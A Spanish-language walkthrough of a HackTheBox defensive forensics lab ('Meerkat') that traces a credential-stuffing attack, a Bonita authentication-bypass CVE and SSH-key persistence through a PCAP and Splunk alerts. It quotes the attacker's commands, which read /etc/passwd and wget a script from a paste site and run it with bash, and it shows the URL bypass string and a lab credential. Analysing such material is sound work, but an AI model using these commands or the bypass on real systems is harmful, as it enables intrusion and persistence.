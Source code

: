 ```yaml
---
title: Meerkat
date: 2023-11-17 18:00:00 +/-TTTT
categories: [Threat Intel]
tags: [fácil, splunk, wireshark, threatintel, blue team]
img_path: /assets/sherlockresources/MEERKAT/
image: test.png
---
```


> Este es un reto de la sección Sherlocks en [HackTheBox](https://app.hackthebox.com/).
{: .prompt-tip}

## Escenario Sherlock

Como una startup de rápido crecimiento, Forela ha estado utilizando una plataforma de gestión empresarial. Por desgracia, nuestra documentación es escasa y nuestros administradores no son los más concienciados en materia de seguridad.

Como nuestro nuevo proveedor de seguridad, nos gustaría que echaras un vistazo a algunos PCAP y logs que hemos exportado para confirmar si hemos sido (o no) comprometidos.

## Recursos

![recursos](Pasted image 20231117150146.png)

## Tareas

### Tarea 1 - Creemos que nuestro servidor de la Plataforma de Gestión Empresarial ha sido comprometido. Por favor, ¿Puedes confirmar el nombre de la aplicación que se está ejecutando?

Primero abrimos la captura PCAP con Wireshark y filtramos por el protocolo HTTP en la barra de filtros `http`.
![http](Pasted image 20231117150557.png)

En los primeros paquetes tenemos mucha información valiosa:
* La comunicación entre `156.146.62.213` y `172.31.6.44`
* La petición a la URL `/bonita/portal/homepage`
* Respuestas del servidor con un **código 401 (Unauthorized)**, que sugiere que el "atacante" (aún no estamos seguros) trató de autenticarse repetidas veces, sin éxito.

> Si buscamos por Google vemos el nombre de la aplicación que se está ejecutando.
{: .prompt-tip}

![google](Pasted image 20231117151008.png)

### Tarea 2 - Creemos que el atacante puede haber utilizado una sub-técnica de la categoría Brute Force. ¿Cuál es el nombre del ataque realizado?

Revisando el framework MITRE ATT&CK, vemos que la Técnica **Brute Force** se divide en cuatro sub-técnicas.
![mitre](Pasted image 20231117151830.png)

**Password Guessing:**
Adversarios sin conocimiento previo de las credenciales legítimas dentro del sistema o entorno pueden adivinar las contraseñas para intentar acceder a cuentas.

**Password Cracking:**
Adversarios pueden utilizar el cracking de contraseñas para intentar recuperar credenciales utilizables, como contraseñas en texto plano o cuando se obtiene material de credenciales como hashes de contraseñas.

**Password Spraying:**
Adversarios pueden utilizar una sola contraseña o una pequeña lista de contraseñas de uso común en muchas cuentas diferentes para intentar obtener credenciales válidas.

**Credential Stuffing:**
Adversarios pueden utilizar credenciales obtenidas de filtraciones/brechas de seguridad para acceder a la organización víctima.

Por lo que tenemos que investigar cuál de ellas empleó el atacante a la hora de intentar pasar el login de `BonitaSoft`

Como queremos buscar por intentos de login fallidos, podemos filtrar por `http.request.method == POST` e investigar los paquetes enviados.
![post](Pasted image 20231117160412.png)

Dentro de las peticiones vemos que el atacante intentó acceder utilizando credenciales existentes de la organización, por lo que realizó un **Credential Stuffing**

### Tarea 3 - ¿La vulnerabilidad explotada tiene asignado un CVE y de ser así, cúal?

Como además del archivo **PCAP** tenemos un archivo de **alertas** en formato JSON, podemos subir el archivo a nuestro software/SIEM favorito. En este caso utilizaré **Splunk**.

![splunk](Pasted image 20231117163216.png)

Y tenemos un total de **789 eventos registrados**, de entre los cuales se encuentra una alerta con el campo `alert.metadata.cve{}`, que nos indica el **CVE** de la vulnerabilidad explotada.
![cve](Pasted image 20231117163314.png)

Además podemos ver que la IP que utilizó el atacante para el **Credential Stuffing** es diferente de esta, `138.199.59.221`

![credstuff](Pasted image 20231117165007.png)

> Investigando el **CVE** nos encontramos con que **Bonita Web 2021.2** se ve afectada por una **vulnerabilidad de evasión de autenticación/autorización** debido a un patrón de exclusión demasiado amplio utilizado en *RestAPIAuthorizationFilter*.
{: .prompt-tip}

Al añadir `;i18ntranslation` o `/../i18ntranslation/` al final de una URL, los usuarios sin privilegios pueden acceder a puntos finales de API privilegiados. Esto puede llevar a la **ejecución remota de código** abusando de las acciones privilegiadas de la API.

![bypass](Pasted image 20231117163628.png)

### Tarea 4 - ¿Qué cadena se añadió a la ruta URL de la API para evitar el filtro de autorización mediante el exploit del atacante?

Como realizó una petición a la API podemos regresar a nuestra captura en Wireshark y filtrar por los campos `http && ip.src_host == 138.199.59.221 `
![newip](Pasted image 20231117165250.png)

En los primeros paquetes nos aparece la cadena que utilizó para evitar el filtro de autorización, `i18ntranslation`

### Tarea 5 - ¿Cuántas combinaciones de usuario/contraseña fueron utilizadas en el ataque Credential Stuffing?

Podemos filtrar por `ip.src == 156.146.62.213 && http.request.method == POST` para ver todas las peticiones donde se introdujo un usuario y contraseña en el login.

![bruteforce](Pasted image 20231117170530.png)

Nos reporta 114 paquetes, pero tenemos que descontar aquellos que contienen los campos `install:install`.

![install](Pasted image 20231117170622.png)

Como se encuentran de forma intercalada, podemos dividir los 114/2 y nos da 57 paquetes. Solo nos queda restar el paquete que contiene el protocolo HTTP/JSON para que nos dé el total de credenciales utilizadas en el ataque, `56`.

![divide](Pasted image 20231117170940.png)

### Tarea 6 - ¿Qué combinación de usuario y contraseña fue exitosa?

Como ya sabemos que el atacante/grupo empleó dos IP diferentes, una para realizar el **Credential Stuffing** `156.146.62.213` y otra para explotar la vulnerabilidad CVE-2022-25237 `138.199.59.221`, podemos filtrar por `http && ip.src == 138.199.59.221`

![credentialas](Pasted image 20231117171550.png)
Vemos que la primera credencial que utilizó para explotar la vulnerabilidad fue `seb.broom@forela.co.uk:g0vernm3nt`

### Tarea 7 - Si lo hubiera, ¿Qué sitio de intercambio de texto utilizó el atacante?

Si filtramos por `ip.src == 138.199.59.221 && http.request.method == GET`, para ver las peticiones GET que realizó el atacante nos encontramos con tres comandos ejecutados gracias a la vulnerabilidad en Bonita Web, entre ellos una petición a `pastes.io`.

![text](Pasted image 20231117172556.png)

* cat /etc/passwd
* **wget https://pastes.io/raw/bx5gcr0et8**
* bash bx5gcr0et8

### Tarea 8 - Por favor, proporciona el hash del archivo del script utilizado por el atacante para obtener acceso persistente a nuestro host.

Si vemos lo que contiene la URL, nos encontramos con un script en Bash, que descarga otro archivo, lo agrega al final de `authorized_keys` y luego reinicia el servicio SSH, por lo que seguramente se trate de una clave pública.

![keys](Pasted image 20231117174341.png)

Podemos descargar el archivo (en un entorno virtualizado) con:
```bash
certutil -urlcache -f https://pastes.io/raw/bx5gcr0et8
```
y realizar un `Get-FileHash` con PowerShell:
```powershell
Get-FileHash -Algorithm MD5 bx5gcr0et8
```
![md5](Pasted image 20231117180635.png)

### Tarea 9 - Por favor, proporciona el hash del archivo de la clave pública utilizada por el atacante para obtener persistencia en nuestro host.

Empleando el mismo método, podemos ver que contiene la URL del primer script, logrando ver la **clave pública del atacante**.

Podemos descargarla de la misma manera que hicimos y obtener el hash MD5.
![download](Pasted image 20231117181253.png)
![download2](Pasted image 20231117181432.png)

### Tarea 10 - ¿Puedes confirmar el archivo modificado por el atacante para ganar persistencia?

En el script se puede observar que almacena el archivo en `/home/ubuntu/.ssh/authorized_keys`

### Tarea 11 - ¿Puedes confirmar el ID de la técnica MITRE de este tipo de mecanismo de persistencia?

Viendo el framework MITRE ATT&CK dentro la táctica **Persistence**, y la técnica **Account Manipulation**, podemos ver la sub-técnica **SSH Authorized Keys** con el ID de `T1098.004`

![mitre2](Pasted image 20231117182330.png)

![solved](Pasted image 20231117182805.png)